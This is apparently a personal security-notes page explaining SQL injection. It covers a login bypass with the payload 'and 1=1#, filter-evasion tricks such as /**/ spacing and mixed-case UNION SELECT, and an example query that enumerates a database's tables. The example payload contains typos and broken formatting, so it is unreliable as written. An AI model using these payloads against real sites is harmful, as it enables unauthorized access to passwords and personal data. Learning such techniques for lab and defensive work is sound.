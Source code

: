 # SQL Injection



<figure><img src="https://i0.wp.com/securitytutorials.co.uk/wp-content/uploads/2016/11/sql-injection-logo.jpg?fit=1140,600&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

## What is SQL?

* **SQL** stands for **S**tructured **Q**uery **L**anguage.
* Most website use a database to store data
* Data like usernames, passwords, credit cards, post and so on, are stored in a database.

## What is an SQL Injection?

* Allows an attacker to interfere with the queries that an application makes to its database.
* A successful SQL injection attack can result in unauthorized access to sensitive data, such as passwords, credit card details, or personal user information.

## SQL Injection Login Bypassing

<figure><img src="../../.gitbook/assets/SQLiPost1.png" alt=""><figcaption></figcaption></figure>

* Seeing the following we are trying to inject SQL commands to bypass this login successfully.
* In this bypass we're doing, we put a colon after the password **"123456"** and we use **"  'and 1=1# "** to inject our SQL command
* 1=1 it will take it like is True, and we will be able to bypass this login page.
* _After that we will successfully login as_ **papishampoo**.

More Information and examples in:

{% content-ref url="../../welcome/writeups/portswigger/sql-injection/" %}
[sql-injection](../../welcome/writeups/portswigger/sql-injection/)
{% endcontent-ref %}

### Bypassing Filters

Bypass blacklisted spaces:

* \+
* /\*\*/
* comment = %23

Bypassing queries:

* uNiOn+SElect+1,2+%23
* UniOn/\*\***/SeLecT/**\*\*/%23

Example:

* \-1'UniOn/\*\***/SeLecT/\*\*/1,table\_name/\*\*/from/\*\*/infromation\_schema.tables/\*\*/where/\*\*table\_schema/\*\*/=/\*\*/' \<table\_name> '%23**
